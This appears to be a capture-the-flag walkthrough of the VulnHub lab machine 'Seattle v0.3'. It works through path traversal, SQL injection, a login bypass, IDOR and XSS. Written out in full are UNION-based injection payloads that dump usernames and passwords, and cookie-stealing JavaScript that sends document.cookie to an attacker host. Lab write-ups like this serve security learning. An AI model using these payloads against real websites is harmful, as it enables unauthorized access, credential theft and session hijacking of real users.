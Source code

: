 ## Seattle v0.3

https://www.vulnhub.com/entry/seattle-v03,145/

Directory enumeration:
```
/products.php         (Status: 200) [Size: 1775]
/downloads            (Status: 301) [Size: 239] [--> http://192.168.1.131/downloads/]
/terms.php            (Status: 200) [Size: 13019]
/blog.php             (Status: 200) [Size: 2031]
/login.php            (Status: 302) [Size: 0] [--> /account.php?login=user]
/nav.php              (Status: 200) [Size: 386]
/header.php           (Status: 200) [Size: 876]
/admin                (Status: 301) [Size: 235] [--> http://192.168.1.131/admin/]
/footer.php           (Status: 200) [Size: 807]
/account.php          (Status: 200) [Size: 2326]
/info.php             (Status: 200) [Size: 82581]
/about.php            (Status: 200) [Size: 2423]
/details.php          (Status: 200) [Size: 1150]
/display.php          (Status: 200) [Size: 86]
/manual               (Status: 301) [Size: 236] [--> http://192.168.1.131/manual/]
/images               (Status: 301) [Size: 236] [--> http://192.168.1.131/images/]
/front.php            (Status: 200) [Size: 212]
/index.php            (Status: 200) [Size: 1892]
/theme                (Status: 301) [Size: 235] [--> http://192.168.1.131/theme/]
/download.php         (Status: 200) [Size: 41]
/logout.php           (Status: 302) [Size: 0] [--> /account.php]
/config.php           (Status: 200) [Size: 0]
/getfile.php          (Status: 200) [Size: 41]
/connection.php       (Status: 200) [Size: 0]
/level.php            (Status: 302) [Size: 0] [--> /index.php]
/user-details.php     (Status: 200) [Size: 640]
```

There is an exposed phpinfo at `info.php`.

There is a path traversal at `/download.php?item=../../../../etc/passwd`.

We can read the enumerated files before, config.php is an insteresting one: `../config.php`
```
$user = 'root';
$pass = 'Alexis*94';
$database = 'seattle';
```

This is the code vulnerable to LFI:
```php
$fullPath = $path.$_GET['item'];

if ($fd = fopen ($fullPath, "r")) {
    $fsize = filesize($fullPath);
    $path_parts = pathinfo($fullPath);
    $ext = strtolower($path_parts["extension"]);
    switch ($ext) {
        case "pdf":
        header("Content-type: application/pdf");
        header("Content-Disposition: attachment; filename=\"".$path_parts["basename"]."\""); // use 'attachment' to force a file download
        break;
        // add more headers for other content types here
        default;
        header("Content-type: application/octet-stream");
        header("Content-Disposition: filename=\"".$path_parts["basename"]."\"");
        break;
    }
    header("Content-length: $fsize");
    header("Cache-control: private"); //use this to open files directly
    while(!feof($fd)) {
        $buffer = fread($fd, 2048);
        echo $buffer;
    }
}
fclose ($fd);
```

<br>

#### SQL Injection
An DB Error occurs at `/products.php?type=1'` when inserting quotation mark.
```
DB Error, could not query the database
MySQL Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

We find the columns count with: `1+ORDER+BY+5--`.

Third columns is being reflected as Product Name: `0+UNION+SELECT+NULL,NULL,'threeC',NULL,NULL--`

Enumerating and dumping credentials:
```
0+UNION+SELECT+NULL,NULL,@@version,NULL,NULL--
10.0.23-MariaDB

# Retrieve tables to find table 'user'
0+UNION+SELECT+NULL,NULL,TABLE_NAME,NULL,NULL+FROM+information_schema.tables--

# Discovering columns to find 'user' and 'password'
0 UNION SELECT NULL,NULL,COLUMN_NAME,NULL,NULL FROM information_schema.columns WHERE table_name = 'user'--

# Discovering columns to find 'username' and 'password'
0 UNION SELECT NULL,NULL,COLUMN_NAME,NULL,NULL FROM information_schema.columns WHERE table_name = 'tblMembers'--

# Dump info
0+UNION+SELECT+NULL,NULL,username,NULL,NULL+FROM+tblMembers--

# Concatenate to bring pretty information
0+UNION+SELECT+NULL,NULL,CONCAT(username,'+',password),NULL,NULL+FROM+tblMembers--
```

`details.php` is also vulnerable, third and fifth columns are reflected. Other way to enumerate:
```
details.php?prod=-1 and 1=1 union all select 1,2,3,4,5 --

# Enumerate database name
details.php?prod=-1 and 1=1 union all select 1,2,3,4,database() --

# Enumerate tables
details.php?prod=-1 and 1=1 union all select 1,2,3,4,group_concat(table_name) from information_schema.tables where table_schema=database() --

# Enumerate columns
prod=-1 and 1=1 union all select 1,2,3,4,group_concat(column_name) from information_schema.columns where table_name='tblMembers' --

# Dump info
-1 and 1=1 union all select 1,2,3,4,group_concat(username,CHAR(32),password) from tblMembers --
```

These are the vulnerable queries:
```php
# display.php (products.php)
$sql = 'SELECT * FROM tblProducts WHERE type =' . $type;

# prod-details.php (details.php)
$sql = 'SELECT * FROM tblProducts WHERE id = ' . $prod;
```

<br>

#### Login
You can bypass login with `usermail=test%40gmail.com'+OR+1=1-- &password=test`.

There is also a username enumeration at login, you can validate the difference on response with admin@seattlesounds.net.

You can perform IDOR in http://192.168.1.131/blog.php?author=1 to see other author's blog and enumerate their usernames.

<br>

#### XSS
Reflected XSS in `/blog.php?author="><script>alert(1)</script>`.

Stored Cross-Site Scripting creating a new blog an acessing at `/blog.php?author=1`.

You can get XSS cookie by using this payload and js file:
```js
<script src="http://192.168.1.125/xss.js"></script>

var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://192.168.1.125/" + document.cookie, false);    
exfilreq.send();

# Or just use
<script>var i=new Image;i.src="http://192.168.1.125/xss.php?"+document.cookie;</script>
```

cookieStealer.py automates this process.
